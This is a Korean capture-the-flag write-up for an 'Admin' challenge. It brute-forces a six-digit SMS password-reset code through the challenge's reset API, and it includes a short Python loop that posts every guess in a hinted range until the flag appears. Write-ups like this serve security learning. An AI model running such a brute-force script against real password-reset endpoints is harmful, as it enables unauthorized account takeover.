 # Admin
> I'm not an expert, but it seems to me that something needs to be hacked here

![Main](Pictures/Admin/main.png)

문제의 설명을 보니 뭔가 SQL Injection은 아닌 것 같아서 일단 `Forgot your password?` 버튼을 눌러봤다.

![Prompt](Pictures/Admin/prompt.png)

그러면 프롬프트 창이 뜨고 6자리의 코드를 입력해야 했다.

```json
{"status":"success","response":{"need_sms":true,"new_hash":"30d2abae719e2a304d21484d7e8c49c4"}}
```

요청을 프록시로 잡아보니 요청을 보낼 때마다 `new_hash`의 값이 계속 바뀌었는데, 이 값이 입력해야 할 코드를 암호화한 값일 것 같았다. 해시 값이 MD5여서 복호화를 해보려고 했지만 실패했다. 그래서 000000~999999 사이의 코드를 MD5로 암호화한 값과 `new_hash`의 값을 비교해봤지만 해시 값과 동일한 코드가 발견되지 않았다.

> Hint 1: just one million possible combinations..

시간이 지나고 첫 번째 힌트가 나왔다. 설마 Brute Force 문제는 아닐 것 같아서 딱히 시도해보지는 않았다. 시간이 더 지나고 두 번째 힌트가 나왔다.

> Hint 2: I think the code is somewhere between 260000 and 280000

정말 Brute Force 문제였다. 파이썬 코드를 작성하고 실행시켜보니 `272273`에서 종료되었다. 이 값을 프롬프트 창에 입력해보니 플래그가 출력되었다.

```python
import requests

for i in range(260000, 280001):
    url = "http://sherlock-message.ru/api/admin.restore"
    res1 = requests.post(url)
    data1 = res1.text[-35:-3]  # new_hash
    print(i)

    data2 = {"hash" : data1, "sms_code" : i}
    res2 = requests.post(url, data=data2)
    if res2.text.find("new_hash") == -1:
        print(res2.text)
        break
```

![Flag](Pictures/Admin/flag.png)